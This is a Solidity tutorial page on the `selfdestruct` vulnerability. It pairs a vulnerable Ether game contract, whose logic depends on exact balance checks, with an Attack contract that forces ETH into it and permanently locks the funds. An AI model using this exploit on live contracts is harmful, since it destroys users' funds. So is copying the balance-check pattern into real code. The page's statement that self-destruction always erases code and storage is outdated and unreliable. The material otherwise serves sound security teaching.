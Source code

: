 # Self Destruct
From https://solidity-by-example.org/hacks/self-destruct/

The `selfdestruct` operation in Solidity is a special function that allows a contract to be deleted from the blockchain. This creates a significant vulnerability because:

- It forcibly sends all contract balance to a designated address
- The receiving contract cannot reject these funds
- This forced transfer can break contract invariants that rely on balance checks
- Once a contract is self-destructed, all its code and storage is removed from the blockchain

## Why is this dangerous?

In smart contracts that rely on precise balance checks, `selfdestruct` can be used to forcibly send ETH and manipulate the contract's balance. This is particularly dangerous because:
1. The receiving contract has no way to prevent the incoming ETH
2. Balance checks using `address(this).balance` become unreliable
3. Game mechanics or financial logic can be broken by unexpected balance changes

## Example

### Vulnerable Code
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

// The goal of this game is to be the 7th player to deposit 1 Ether.
// Players can deposit only 1 Ether at a time.
// Winner will be able to withdraw all Ether.

contract EtherGame {
    uint256 public constant TARGET_AMOUNT = 7 ether;
    address public winner;

    function deposit() public payable {
        require(msg.value == 1 ether, "You can only send 1 Ether");

        uint256 balance = address(this).balance;
        require(balance <= TARGET_AMOUNT, "Game is over");

        if (balance == TARGET_AMOUNT) {
            winner = msg.sender;
        }
    }

    function claimReward() public {
        require(msg.sender == winner, "Not winner");

        (bool sent,) = msg.sender.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }
}
```

### Exploit Code
```solidity
contract Attack {
    EtherGame etherGame;

    constructor(EtherGame _etherGame) {
        etherGame = EtherGame(_etherGame);
    }

    function attack() public payable {
        // You can simply break the game by sending ether so that
        // the game balance >= 7 ether

        // cast address to payable
        address payable addr = payable(address(etherGame));
        selfdestruct(addr);
    }
}
```

The attack works as follows:
1. Players start depositing 1 ETH each into the game normally
2. Before the 7th player deposits, an attacker deploys the Attack contract
3. The attacker sends ETH to the Attack contract and calls `attack()`
4. `selfdestruct` forces ETH into the game contract, pushing its balance over 7 ETH
5. The game is now broken because:
   - No more deposits can be made (`balance <= TARGET_AMOUNT` check fails)
   - No one can become the winner (balance will never exactly equal TARGET_AMOUNT)
   - Any ETH already in the contract becomes permanently locked
